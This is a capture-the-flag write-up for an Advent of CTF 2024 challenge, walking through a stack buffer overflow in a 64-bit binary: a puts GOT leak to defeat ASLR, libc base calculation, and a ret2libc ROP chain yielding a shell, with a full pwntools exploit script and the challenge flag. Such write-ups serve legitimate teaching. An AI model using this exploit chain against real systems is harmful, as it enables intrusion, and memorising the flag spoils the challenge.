 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day16_description.png">

First, I decompiled the binary in dogbolt:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_16_info.png">

It is a simple program, but there is a buffer overflow at `fgets(&buf, 0x80, stdin);`, where 128 bytes are read inside `buf`, which is of type void. There is no win function, so I used ROP. The file is also a 64 bit executable, which is important to keep in mind. First I tried to find the correct offset using the same approach as in the previous binary challenge ([day10](https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/Day10/flag_from_wish.md)). Basically 
I used `cyclic_find` to which I added 8 bytes (size of RBP) and the final offset was `72`. Alright, now my idea was to leak the puts address, which then will help me calculate the base address of libc. This is needed since ASLR is enabled. Since this was a 64 bit executable (remember!?) I also need to be carefull how parameters are passed to functions. Basically, a ROP gadget is needed to pop the value of RDI (thought which function parameters are passed). To find one, I used:

```bash
ROPgadget --binary main | grep "pop rdi"
```

Now, I just need to put the value I want to print (in this case is the memory address of puts) in RDI and then put the function call on the stack. Finally, I need to re-run the main function, so I can do the actual exploit and get the shell. Here is the exploit described so far:
```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 

rop = ROP(elf) 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
puts_got = elf.got['puts']  
main_addr = 0x4011ee  

payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)
```

Sending the payload now, a line is returned which shows us what I entered and at the end the leaked puts address, so it is important to parse this correctly to get the correct address. I definitely made my approach more complicated than it needed to be:

```python
p = process('./main')          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      

output = p.recvline()  
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
raw_bytes = bytes.fromhex(hex_output.replace(' ', '')) 

search_sequence = b'\x96\x11\x40'
position = raw_bytes.find(search_sequence)
result = raw_bytes[position + len(search_sequence):]
result_without_last_byte = result[:-1]

print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')

```

I transformed the data to hex and look at the bytes after the `96 11 40` sequence which is the address of `pop_rdi_ret`, but in little endian. Then I just deleted the last byte which is the `\n` character and transformed the address to big endian and then make it an integer value.

Now, I can calculate the value of the base libc by subtracting from the memory address of puts, the offset of puts. With the base libc I can calculate the memory address of the `system` function and the `\bin\sh` string:

```python
libc_base = leaked_puts - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

```

Finally, I crafted the exploit in a similar manner as for the first step, with the only difference being the addition of a ret gadget, which is used for stack alignment.

```python
ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 

p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 
```

Then I get a shell and thus the flag if I connect remote. Below is my final complete script with some additional prints:

```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 
context.log_level='debug'

io = process(elf.path)

rop = ROP(elf) 

# Attach gdb to the running process
#gdb.attach(io, gdbscript=""" set environment LD_LIBRARY_PATH ./libc.so.6 """)

host = "ctf.csd.lol"
port = 2020 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
print("puts_p in Hex:", hex(puts_plt))
puts_got = elf.got['puts']  
print("puts_got in Hex:", hex(puts_got))
main_addr = 0x4011ee         


payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)                


#p= process('./main')
p = remote(host,port)          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      



output = p.recvline()  
print("TESTTT "+ output.decode(errors='ignore'))
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
print("TESTTT " + hex_output)


raw_bytes = bytes.fromhex(hex_output.replace(' ', ''))  

# Take the bytes after pop_rdi_ret address
search_sequence = b'\x96\x11\x40'

position = raw_bytes.find(search_sequence)

result = raw_bytes[position + len(search_sequence):]
print(result)

result_without_last_byte = result[:-1]
print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')
print(leaked_puts)

libc_base = leaked_puts - libc.symbols['puts']
print(libc.symbols['puts'])
print("libc_base: " + str(libc_base))

system_addr = libc_base + libc.symbols['system']
print("system_addr: " + str(system_addr))

bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
print("bin_sh_addr : " + str(bin_sh_addr ))

ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 


p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 

```

An important note is to remember to use `pwnutils` for the local exploit when the libc is given, I personally did not know that and, I had the correct script locally, but of course it didn't work because it's not loading the correct libc. So, just putting the executable and libc file in the same directory is not enough !


`csd{J1Ngl3_b3ll_r0CK_15_b357_XM45_50NG}`
